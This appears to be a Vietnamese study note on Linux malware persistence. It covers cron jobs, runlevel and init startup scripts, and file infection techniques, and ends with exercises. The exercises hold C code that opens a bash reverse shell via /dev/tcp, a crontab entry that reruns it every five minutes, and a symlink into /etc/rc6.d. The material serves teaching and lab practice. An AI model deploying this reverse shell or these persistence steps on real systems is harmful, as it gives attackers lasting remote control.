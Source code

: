 # Các kỹ thuật persistence

## Cron Jobs

- Cron Jobs là một ứng dụng để lập lịch chạy ứng dụng của Linux.

- Malware sử dụng Cron Jobs để lập lịch chạy, duy trì sự tồn tại trên hệ thống.

## Subsystems Initialization

- Startup Script là các script được chạy cùng với sự khởi động của hệ thống. Ví dụ: etc/rc.local/, /etc/init.d/

- Các script trong /etc/rc*.d/ được sử dụng để khởi động và dừng các dịch vụ hệ thống ở các runlevel khác nhau. Các level chạy của hệ thống:

  - Runlevel0: hệ thống tắt.
 
  - Runlevel1: chế độ đơn người dùng. Chỉ có hệ thống cơ bản và các dịch vụ tối thiểu được khởi động. Không có mạng, và thường chỉ có người dùng root có thể đăng nhập.
 
  - Runlevel2: chế độ đa người dùng mà không có mạng. Đa số các dịch vụ cơ bản và môi trường làm việc nhiều người dùng được khởi động, nhưng các dịch vụ mạng không được kích hoạt.
 
  - Runlevel3: chế độ đa người dùng có mạng. Tất cả các dịch vụ cơ bản và mạng đều được khởi động, nhưng không có môi trường desktop đồ họa.
 
  - Runlevel4: chưa được sử dụng hoặc dành cho mục đích đặc biệt. Người dùng có thể tùy chỉnh runlevel này để đáp ứng các nhu cầu cụ thể.
 
  - Runlevel5: chế độ đa người dùng với môi trường đồ họa. Tất cả các dịch vụ và mạng đều được khởi động, bao gồm cả môi trường desktop đồ họa.
 
  - Runlevel6: hệ thống khởi động lại.
 
- Init scripts là các script được chạy bởi tiến trình init(systemd) khi hệ thống khởi động. Ví dụ: /etc/systemd/system/ 

## File Infection and Replacement

- File Infection:

  - Appended Infection: Mã độc được thêm vào cuối một tệp hợp lệ.
 
  - Prepended Infection: Mã độc được thêm vào đầu một tệp hợp lệ.
 
  - Cavity Infection: Mã độc được thêm vào giữa một tệp hợp lệ.

- File Replacement: Mã độc thay thế một tệp hợp lệ thành một tệp độc hại cùng tên.

# Bài tập

## Malware:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char *argv[])
{
    const char *ip = argv[1];
    int port = atoi(argv[2]);
    char commad[MAX_BUFFER_SIZE];
    sprintf(commad, "bash -c \"/bin/bash -i >& /dev/tcp/%s/%d 0>&1\"", ip, port);
    system(commad);
    return 0;
}
```

## Bài 1:

```
crontab -e
*/5 * * * * /path/to/malware 127.0.0.1 1234
```

## Bài 2:

- startup script

- rc script

```
ln -s /path/to/malware /etc/rc6.d/malware
```

- init script
